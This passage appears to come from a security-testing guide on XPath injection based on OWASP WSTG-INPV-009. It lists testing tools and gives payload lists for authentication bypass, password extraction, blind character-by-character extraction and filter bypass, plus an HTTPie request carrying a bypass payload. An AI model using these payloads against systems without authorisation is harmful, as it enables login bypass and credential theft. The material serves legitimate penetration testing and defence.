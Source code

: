       # HTTPie
      http "http://example.com/login?user==admin' or '1'='1"
      ```

- **Postman**: GUI tool for testing XPath injection in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters, body, or XML payloads.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to XPath payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for error messages.
  - **Note**: Firefox’s 2025 XPath query inspection enhancements improve debugging.

- **XPath Tester (Online)**: Validates XPath payloads.
  - Access via search for “online XPath tester” (e.g., [FreeFormatter](https://www.freeformatter.com/xpath-tester.html)).
  - Test payloads against sample XML to confirm syntax.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-009, testing XPath Injection vulnerabilities across input vectors, authentication bypass, data extraction, blind injection, and filter bypass techniques.

### Common XPath Injection Payloads

Below is a list of common XPath Injection payloads to test various XPath query vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution and verify results manually.

- **Basic Injection**:
  - `' or '1'='1` (Bypasses conditions, e.g., authentication)
  - `' or 1=1 or ''='` (Alternative bypass)
  - `' or true() or ''='` (Uses XPath true function)

- **Data Extraction**:
  - `' or //*[1]=1 or ''='` (Returns all nodes)
  - `' or //user[1]/password or ''='` (Extracts first user’s password)
  - `' or name()='user' or ''='` (Targets specific elements)

- **Blind Injection**:
  - `' and string-length(//user[1]/password)=8 or ''='` (Tests password length)
  - `' and substring(//user[1]/password,1,1)='a' or ''='` (Extracts characters)
  - `' and count(//user)=5 or ''='` (Counts nodes)

- **Filter Bypass**:
  - `%27%20or%20%271%27=%271` (URL-encoded)
  - `' or /*[local-name()='user'] or ''='` (Bypasses namespace restrictions)
  - `' or normalize-space(//user[1]/name)='admin' or ''='` (Handles whitespace)

**Note**: Payloads depend on the XML structure and XPath version (1.0 or 2.0). Test payloads in query parameters, form fields, or XML inputs where XPath queries are likely used.
